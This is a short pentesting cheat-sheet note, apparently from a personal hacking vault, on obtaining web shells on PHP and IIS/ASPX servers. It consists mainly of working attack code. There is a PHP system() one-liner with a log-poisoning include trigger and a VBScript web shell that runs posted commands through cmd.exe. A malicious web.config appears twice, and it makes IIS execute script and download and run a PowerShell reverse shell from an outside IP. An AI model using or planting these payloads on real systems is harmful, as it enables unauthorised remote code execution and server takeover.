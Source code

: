 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - SpecificShells
---
```



# PHP Web Shell

[GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
## Example shells:

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig
## ZIP Wrapper LFI

[[File include#Unzip File]]

# ASPX

[[Windows ASPX]]

## Generic Reverse Shells

```
' -- create the COM objects that we will be using -- ' Set oScript = Server.CreateObject("WSCRIPT.SHELL") Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") ' -- check for a command that we have posted -- ' szCMD = Request.Form(".CMD") If (szCMD <> "") Then ' -- Use a poor man's pipe ... a temp file -- ' szTempFile = "C:\" & oFileSys.GetTempName( ) Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0) End If

```

```
<?xml version="1.0" encoding="UTF-8"?> <configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer> </configuration> <%@ Language=VBScript %> <% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')") %>
```

## Windows Nishang Shell

See [[3. Exploitation/Obtaining Remote Shells/Specific Shells/Windows/Windows#PowerShell]]

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```
